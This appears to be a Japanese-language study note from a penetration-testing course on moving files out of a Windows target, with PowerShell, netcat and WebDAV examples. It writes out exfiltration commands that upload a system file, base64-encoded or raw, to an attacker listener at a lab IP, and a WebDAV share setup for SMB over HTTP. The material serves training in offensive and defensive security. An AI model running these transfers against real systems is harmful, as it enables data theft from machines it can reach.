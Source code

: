 ```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

#### PowerShell Base64 Web アップロード
- `Invoke-WebRequest` や `Invoke-RestMethod` を使い、PowerShell でデータを送信
- `Netcat` を使い、指定したポートでリスニング
- `POST` リクエストとしてファイルを送信
- 出力をコピーして、base64 デコード関数でファイルに変換
##### 攻撃者側
base64エンコードした値を受け取る
```shell-session
nc -lvnp 8000
```
base64エンコードをファイルに戻す
```shell-session
 echo <base64> | base64 -d -w 0 > hosts
```

##### ターゲット側
```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

#### SMBアップロード
- 以前、企業は通常、`HTTP`（TCP/80）および`HTTPS`（TCP/443）プロトコルを使用してアウトバウンドトラフィックを許可することについて議論した。
	- 一般的に、企業はSMBプロトコル（TCP/445）を内部ネットワークから外すことを許可しない
		- なぜなら、これは潜在的な攻撃に開放される可能性があるから
	- 代替
		- `WebDav`でHTTP上でSMBを実行すること
			- `WebDAV`[（RFC 4918）](https://datatracker.ietf.org/doc/html/rfc4918)は、WebブラウザとWebサーバーが相互に通信するために使用するインターネットプロトコルであるHTTPの拡張
		- `WebDAV`はHTTPSも使用できる
##### 攻撃者側
wsgidavとcherootの2つをインストールする必要ある
```shell-session
sudo pip3 install wsgidav cheroot
```

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
##### ターゲット側
Webdav シェアへの接続
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
- `DavWWWRoot`は、Windows Shellによって認識される特別なキーワード
- WebDAVサーバーにはそのようなフォルダは存在しない
- DavWWWRoot キーワードは、WebDAV サーバーのルートに接続している WebDAV 要求を処理する Mini-Redirector ドライバーに伝えます。
- サーバーに接続するときにサーバーに存在するフォルダを指定すると、このキーワードの使用を避けることができる
